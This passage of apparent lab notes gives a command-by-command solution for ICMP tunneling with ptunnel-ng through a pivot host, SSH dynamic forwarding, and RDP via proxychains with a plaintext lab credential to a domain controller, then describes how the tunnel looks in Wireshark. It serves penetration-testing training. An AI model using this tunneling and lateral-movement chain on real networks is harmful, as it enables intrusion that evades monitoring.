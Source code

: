 #### **Lab Solution Summary**
```bash
# Attack Host - Terminal 1: Setup
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/ && sudo ./autogen.sh
scp -r ptunnel-ng ubuntu@10.129.202.64:~/

# Pivot Host: Start Server
ssh ubuntu@10.129.202.64
cd ptunnel-ng/src/
sudo ./ptunnel-ng -r10.129.202.64 -R22

# Attack Host - Terminal 2: Start Client
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

# Attack Host - Terminal 3: Dynamic Forwarding
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

# Attack Host - Terminal 4: Access DC
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'
# In RDP: type C:\Users\victor\Downloads\flag.txt
```

---

## **8. Network Traffic Analysis**

### **Wireshark Analysis**

#### **Normal SSH Traffic**
```bash
# Command: ssh ubuntu@10.129.202.64
# Wireshark shows:
- TCP handshake to port 22
- SSHv2 protocol packets
- Encrypted SSH payload data
- Clear TCP/SSH packet headers
```

#### **ICMP Tunneled SSH Traffic**
```bash
# Command: ssh -p2222 -lubuntu 127.0.0.1
# Wireshark shows:
- ICMP Echo Request packets
- ICMP Echo Reply packets
- Payload contains tunneled SSH data
- No visible TCP/SSH headers
- Appears as ping traffic to security tools
```

### **Traffic Characteristics**
```bash
# ICMP tunnel characteristics:
- Type: ICMP (Protocol 1)
- Echo Request (Type 8, Code 0)
- Echo Reply (Type 0, Code 0)
- Payload: Encapsulated TCP data
- Frequency: Regular ping-like intervals
- Size: Variable payload sizes (unusual for ping)
```
